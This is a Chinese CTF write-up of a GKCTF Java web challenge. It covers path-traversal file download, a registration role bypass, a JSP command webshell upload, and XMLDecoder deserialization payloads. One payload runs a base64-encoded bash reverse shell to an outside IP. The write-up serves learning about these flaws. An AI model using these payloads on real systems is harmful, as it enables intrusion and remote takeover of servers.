


# 前言

最近想找一点Java题做，看看CTF中的Java题都是什么样的，想到之前GKCTF里面有这么一道Java，存在非预期所以后来修复了，来做了一下学习学习。


# 非预期

进入环境发现有登录和注册的功能，看一下注册那里的f12知道了后端接收的方式和数据：

```js
<script type="text/javascript">
    // var obj={};
    // obj["username"]='test';
    // obj["password"]='test';
    // obj["role"]='guest';
    function doRegister(obj){
        if(obj.username==null || obj.password==null){
            alert("用户名或密码不能为空");
        }else{
            var d = new Object();
            d.username=obj.username;
            d.password=obj.password;
            d.role="guest";

            $.ajax({
                url:"/register",
                type:"post",
                contentType: "application/x-www-form-urlencoded; charset=utf-8",
                data: "data="+JSON.stringify(d),
                dataType: "json",
                success:function(data){
                    alert(data)
                }
            });
        }
    }
</script>
```

然后请求一下，随便注册一个：

```
data={"username":"1","password":"1","role":"admin"}
```


然后登录。登录进去后发现role还是guest，先放在这。看一下功能，有个文件上传但是需要role是admin才行。还有个任意文件下载：

```
/home/download?file=../../static/cat.gif
```

尝试下载文件。考虑到之前测试register接口的时候，我忘记了加上data结果报了500：


当时也看了一下，很熟悉的`Servlet`。因此对于项目的结构也大致能猜出来。

先读一下web.xml：

```
?file=../web.xml
```

```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <servlet>
    <servlet-name>register</servlet-name>
    <servlet-class>com.web.servlet.registerServlet</servlet-class>
  </servlet>
  <servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>com.web.servlet.loginServlet</servlet-class>
  </servlet>
  <servlet>
    <servlet-name>home</servlet-name>
    <servlet-class>com.web.servlet.homeServlet</servlet-class>
  </servlet>
  <servlet>
    <servlet-name>upload</servlet-name>
    <servlet-class>com.web.servlet.uploadServlet</servlet-class>
  </servlet>
  <servlet>
    <servlet-name>download</servlet-name>
    <servlet-class>com.web.servlet.downloadServlet</servlet-class>
  </servlet>
  <servlet>
    <servlet-name>logout</servlet-name>
    <servlet-class>com.web.servlet.logoutServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>logout</servlet-name>
    <url-pattern>/logout</url-pattern>
  </servlet-mapping>
  <servlet-mapping>
    <servlet-name>download</servlet-name>
    <url-pattern>/home/download</url-pattern>
  </servlet-mapping>
  <servlet-mapping>
    <servlet-name>register</servlet-name>
    <url-pattern>/register</url-pattern>
  </servlet-mapping>
  <display-name>java</display-name>
  <servlet-mapping>
    <servlet-name>login</servlet-name>
    <url-pattern>/login</url-pattern>
  </servlet-mapping>
  <servlet-mapping>
    <servlet-name>home</servlet-name>
    <url-pattern>/home</url-pattern>
  </servlet-mapping>
  <servlet-mapping>
    <servlet-name>upload</servlet-name>
    <url-pattern>/home/upload</url-pattern>
  </servlet-mapping>

  <filter>
    <filter-name>loginFilter</filter-name>
    <filter-class>com.web.filter.LoginFilter</filter-class>
  </filter>
  <filter-mapping>
    <filter-name>loginFilter</filter-name>
    <url-pattern>/home/*</url-pattern>
  </filter-mapping>
  <display-name>java</display-name>

  <welcome-file-list>
    <welcome-file>/WEB-INF/index.jsp</welcome-file>
  </welcome-file-list>
</web-app>

```

再根据这些`Servlet`，依次读出来class文件，例如：

```
?file=../classes/com/web/servlet/loginServlet.class
```

最后大致会读出来这些：



大致审计一下，首先就是注册那里role的问题：

```java
        String role = "";
        Gson gson = new Gson();
        new Person();
        Connection connection = null;
        String var = req.getParameter("data").replaceAll(" ", "").replace("'", "\"");
        Pattern pattern = Pattern.compile("\"role\":\"(.*?)\"");

        for(Matcher matcher = pattern.matcher(var); matcher.find(); role = matcher.group()) {
        }

        Person person;
        if (!StringUtils.isNullOrEmpty(role)) {
            var = var.replace(role, "\"role\":\"guest\"");
            person = (Person)gson.fromJson(var, Person.class);
        } else {
            person = (Person)gson.fromJson(var, Person.class);
            person.setRole("guest");
        }
```

根据正则匹配，然后将匹配到的东西替换成`\"role\":\"guest\"`。但是那里用的是for循环，role得到的是最后依次匹配到的，所以可以写2个不一样的role，把最后依次匹配到的替换掉就可以了：

```
data={"username":"1","password":"1","role":"admin","1":{"role":"1"}}
```

这样role就是admin了，可以使用文件上传功能。

文件上传功能那里限制了文件的后缀很内容，但是这里出了问题：

```java
                    if (checkExt(ext) || checkContent(item.getInputStream())) {
                        req.setAttribute("error", "upload failed");
                        req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
                    }

                    String filePath = uploadPath + File.separator + name + ext;
                    File storeFile = new File(filePath);
                    item.write(storeFile);
                    req.setAttribute("error", "upload success!");
```

在if里面，如果后缀或者内容出了问题，进行请求转发后，并没有return：

> 无论是 request.getRequestDispatcher(path).forward(request, response)还是response.sendRedirect,程序都会在执行完该句的情况下继续向下执行,因此在必要的时候应该使用return终止该方法.


这就是非预期产生的原因，可以随便写马上传。写个jsp木马然后上传，但是upload目录不可写，写到static目录就可以了：

```http
------WebKitFormBoundaryLH4SrsDPS4UucSBo
Content-Disposition: form-data; name="file"; filename="../../static/2.jsp"
Content-Type: application/octet-stream

        <%
            java.io.InputStream input = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
            int len = -1;
            byte[] bytes = new byte[1024];
            out.print("<pre>");
            while ((len = input.read(bytes)) != -1) {
                out.println(new String(bytes, "GBK"));
            }
            out.print("</pre>");
    %>
------WebKitFormBoundaryLH4SrsDPS4UucSBo--

```


# 预期解

是知识盲区没错了。学一手WP。

虽然限制了后缀，但是可以上传xml。注意到`baseDao`：

```java
    public static void getConfig() throws FileNotFoundException {
        Object obj = (new XMLDecoder(new FileInputStream(System.getenv("CATALINA_HOME") + "/webapps/ROOT/db/db.xml"))).readObject();
        if (obj instanceof HashMap) {
            HashMap map = (HashMap)obj;
            if (map != null && map.get("url") != null) {
                driver = (String)map.get("driver");
                url = (String)map.get("url");
                username = (String)map.get("username");
                password = (String)map.get("password");
            }
        }

    }
```

存在`XMLDecoder`的漏洞，这里直接把payload打了，下一篇文章去分析一下原理。

正常的就是类似XML，里面可以写上命令执行：

```java
<java version="1.7.0_80" class="java.beans.XMLDecoder">
 <object class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="1">
    <void index="0"><string>calc</string></void>
  </array>
  <void method="start"></void>
 </object>
</java>
```

如果`XMLDecoder`解析了这个xml，就会导致命令执行。

但是内容ban了一些命令执行，考虑到是xml，可以利用实体编码来绕过：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java>
<object class="java.lang.&#80;rocessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNS4xNjkuMjIzLzM5ODc2IDA+JjE=}|{base64,-d}|{bash,-i}</string>
</void>
</array>
<void method="start"/>
</object>
</java>
```


写个反弹shell，然后覆盖掉db.xml：

`Content-Disposition: form-data; name="file"; filename="../db/db.xml"`

再重新登录即可反弹shell拿到flag。




# 其他的学习

关于role的那个，官方的解法是利用注释：

> 这⾥由于是json库，并且是gson进⾏解析，于是可以在 json中⾃由使⽤注释符/**/

所以那里也可以拿注释服来绕过，学习了学习了！


# 总结

再去看看`XMLDecoder`。